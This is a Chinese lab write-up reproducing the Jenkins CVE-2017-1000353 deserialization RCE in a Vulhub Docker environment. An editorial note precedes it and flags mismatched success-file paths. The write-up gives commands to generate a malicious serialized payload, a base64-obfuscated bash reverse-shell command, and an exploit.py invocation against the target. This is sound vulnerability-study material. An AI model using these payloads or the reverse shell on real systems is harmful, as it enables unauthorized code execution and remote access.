


## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：weekly&lt;=2.56/LTS&lt;=2.46.1，实验2.46.1；生成器建议JDK8u292是工具端要求非目标范围

代码与实验材料：生成序列化对象再传CLI，指定工具release及Docker生成器；命令与结果路径不一致

来源证据范围：Jenkins官方2017-04-26公告、Vulhub工具release/源码及ExploitDB

- **事实待核（1）**：成功证据路径错配；依据：载荷创建/tmp/awesome_poc，末文却验证/tmp/success；序列化流误称字节码文件。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **适用与权限边界（2）**：修复/运行时边界补充；依据：缺固定core分支版本，工具生成端JDK8u292经验需明确与目标JDK区分；反连样例编码回环地址需标示例。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# Jenkins-CI 远程代码执行漏洞 CVE-2017-1000353

## 漏洞描述

Jenkins 是一个广泛使用的开源自动化服务器。

Jenkins 2.56 及更早版本以及 2.46.1 LTS 及更早版本存在未授权的远程代码执行漏洞。这个未经身份验证的远程代码执行漏洞允许攻击者向 Jenkins CLI 传输序列化的 Java `SignedObject` 对象，该对象会使用新的 `ObjectInputStream` 进行反序列化，从而绕过现有的基于黑名单的保护机制。

参考链接：

- [https://www.jenkins.io/security/advisory/2017-04-26/](https://www.jenkins.io/security/advisory/2017-04-26/)
- [https://www.exploit-db.com/exploits/41965](https://www.exploit-db.com/exploits/41965)

## 环境搭建

Vulhub 执行如下命令启动 jenkins 2.46.1：

```
docker-compose up -d
```

等待服务器完全启动成功后，访问 `http://your-ip:8080` 即可看到 jenkins 已成功运行，无需手工安装。

## 漏洞复现

漏洞利用过程分为两个步骤：生成恶意序列化载荷，并将其发送至目标 Jenkins 服务器。

首先，下载 [CVE-2017-1000353-1.1-SNAPSHOT-all.jar](https://github.com/vulhub/CVE-2017-1000353/releases/download/1.1/CVE-2017-1000353-1.1-SNAPSHOT-all.jar) 工具来生成 payload。这个工具将创建一个包含我们命令的序列化对象：

```shell
java -jar CVE-2017-1000353-1.1-SNAPSHOT-all.jar jenkins_poc.ser "touch /tmp/awesome_poc"
# jenkins_poc.ser 是生成的输出文件名
# "touch ..." 是要执行的命令

# REVERSE SHELL
# java -jar CVE-2017-1000353-1.1-SNAPSHOT-all.jar revshell.ser "bash -c {echo,L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEyNy4wLjAuMS84ODg4IDA+JjE=}|{base64,-d}|{bash,-i}"
```

**注意**：生成 payload 时的 Java 版本很重要，建议使用 OpenJDK 8u292 版本。其他版本的 Java 可能导致生成的 payload 无法成功利用。如果遇到问题，可以使用以下命令在 Docker 中生成 payload：

```shell
docker run --rm -v $(pwd):/tmp openjdk:8u292 bash -c "cd /tmp && java -jar CVE-2017-1000353-1.1-SNAPSHOT-all.jar jenkins_poc.ser \"touch /tmp/awesome_poc\""
```

执行上述命令后，将生成一个名为 `jenkins_poc.ser` 的文件，其中包含序列化后的 payload。

下载 [exploit.py](https://github.com/vulhub/CVE-2017-1000353/blob/master/exploit.py)，执行 `python exploit.py http://your-ip:8080 jenkins_poc.ser`，将刚才生成的字节码文件发送给目标：



进入 docker，发现 `/tmp/success` 成功被创建，说明命令执行漏洞利用成功：




---

> 来源：Threekiii/Awesome-POC
